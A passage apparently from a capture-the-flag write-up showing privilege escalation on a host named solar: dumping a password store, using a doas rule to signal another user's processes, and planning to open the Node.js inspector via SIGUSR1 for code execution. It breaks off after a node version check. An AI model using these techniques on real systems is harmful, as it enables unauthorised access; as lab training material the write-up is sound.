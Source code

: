 ```bash
lenam@solar:~$ pass
Password Store
├── personal
│   ├── private_id
│   └── user
└── work
    └── office
lenam@solar:~$ pass personal/private_id
CzMO48xpwof8nvQ6JUhF
lenam@solar:~$ pass personal/user
qiFQI7buDp7zIQnAymEY
lenam@solar:~$ pass work/office
d1NpIh1bCKMx
```

The `personal/private_id` password is the passphrase for the SSH key we already have; `personal/user` is the password for the `lenam` user, needed for running `doas`. The last password `work/office` won't be necessary.

Now that we have `lenam`'s password, we can kill processes as the `julian` user using `doas`.

```text
permit lenam as julian cmd /bin/kill
```

We search for processes running under the `julian` user.

```bash
lenam@solar:~$ ps aux | grep julian
julian    549542  3.2  3.9 1053996 79168 ?       Ssl  05:11   0:00 /home/julian/.nvm/versions/node/v22.7.0/bin/node /home/julian/.local/bin/demoadm/login.js
julian    549553  5.0  8.8 34100228 179060 ?     Ssl  05:11   0:00 /home/julian/.cache/puppeteer/chrome/linux-126.0.6478.126/chrome-linux64/chrome --allow-pre-commit-input --disable-background-networking --disable-background-timer-throttling --disable-backgrounding-occluded-windows --disable-breakpad --disable-client-side-phishing-detection --disable-component-extensions-with-background-pages --disable-component-update --disable-default-apps --disable-dev-shm-usage --disable-extensions --disable-hang-monitor --disable-infobars --disable-ipc-flooding-protection --disable-popup-blocking --disable-prompt-on-repost --disable-renderer-backgrounding --disable-search-engine-choice-screen --disable-sync --enable-automation --export-tagged-pdf --generate-pdf-document-outline --force-color-profile=srgb --metrics-recording-only --no-first-run --password-store=basic --use-mock-keychain --disable-features=Translate,AcceptCHFrame,MediaRouter,OptimizationHints,ProcessPerSiteUpToMainFrameThreshold,IsolateSandboxedIframes --enable-features=PdfOopif --headless=new --hide-scrollbars --mute-audio about:blank --ignore-certificate-errors --remote-debugging-port=0 --user-data-dir=/tmp/puppeteer_dev_chrome_profile-W1SxUQ
...
```

We find a `nodejs` process. This process restarts every 2 minutes, changing its PID.

We can try killing the process by sending a `SIGUSR1` signal, which will restart the `nodejs` process with the inspector port open by default on port `9229`.

We check if we can run the `nodejs` binary on the server and if we have execution permissions.

```bash
lenam@solar:~$ /home/julian/.nvm/versions/node/v22.7.0/bin/node --version
v22.7.0
```

